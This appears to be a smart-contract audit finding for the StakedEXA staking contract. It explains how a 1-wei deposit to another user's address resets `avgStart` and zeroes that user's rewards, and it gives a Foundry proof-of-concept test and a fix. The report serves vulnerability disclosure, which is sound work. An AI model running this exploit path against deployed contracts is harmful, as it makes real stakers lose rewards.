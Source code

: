 Large Fuchsia Dove

High

# Attackers will reset `avgStart` of any user making rewards stuck for longer and get lost to savings

### Summary

`StakedExa::_update()` resets `avgStart[to]` whenever the time passed is bigger than the reference time. An attacker can deposit 1 wei to some user and reset the `avgStart`, which will make claiming for the `to` address return 0 rewards until at least `minTime` and/or the `to` address loses the rewards to savings when withdrawing.

### Root Cause

In `StakedExa.sol::151`, `if (time > memRefTime) avgStart[to] = block.timestamp * 1e18;` [resets](https://github.com/sherlock-audit/2024-07-exactly-stacking-contracts/blob/main/protocol/contracts/StakedEXA.sol#L151) the average start time to the current block timestamp, which may be performed by an attacker donating just 1 wei to the `to` address.

### Internal pre-conditions

1. User must stake for at least `refTime`, which is expected as this the moment the user can claim the maximum rewards.

### External pre-conditions

None.

### Attack Path

1. User stakes until reaching at least the reference time + 1.
2. Attacker deposits 1 wei to the user forcing `avgStart` to reset and discount all rewards to 0 until `minTime` passes.

### Impact

User will not receive any rewards until `minTime` and will lose to savings when withdrawing as no rewards would have vested due to `avgStart[to]` having been reset.

### PoC

Add the following test to `StakedEXA.t.sol`.
```solidity
function test_POC_anyone_can_reset_stakedTime() external {
  bool attack = true;
  uint256 assets = 1e18;
  uint256 time = refTime;

  exa.mint(address(this), assets);
  stEXA.deposit(assets, address(this));

  uint256 initTime = block.timestamp * 1e18;
  skip(time + 1);
  uint256 finalTime = block.timestamp * 1e18;

  stEXA.claim(rA);
  assertEq(stEXA.avgStart(address(this)), initTime);

  // Add some more rewards
  rA.mint(address(stEXA), initialAmount);
  stEXA.notifyRewardAmount(rA, initialAmount);

  // Attacker deposits 1 to reset start time and get rewards stuck
  if (attack) {
    address attacker = makeAddr("attacker");
    exa.mint(attacker, 1);
    vm.startPrank(attacker);
    exa.approve(address(stEXA), 1);
    stEXA.deposit(1, address(this));
    vm.stopPrank();
    assets += 1;
  }

  skip(minTime);

  assertEq(stEXA.avgStart(address(this)), attack ? finalTime : initTime, "avgStart");
  assertEq(stEXA.claimable(rA, address(this), assets), attack ? 0 : 20833334711198888308, "claimable");
}
```

### Mitigation

Remove the `avgStart[to]` reset mechanism in `_update()`, as users can decrease their staked time by withdrawing and depositing again, it should not be able to reset like this because they might want to just keep claiming or withdraw in the near future while paying only some `excessFactor` rewards. With the code as is, attackers can manipulate other users rewards and make them lose funds.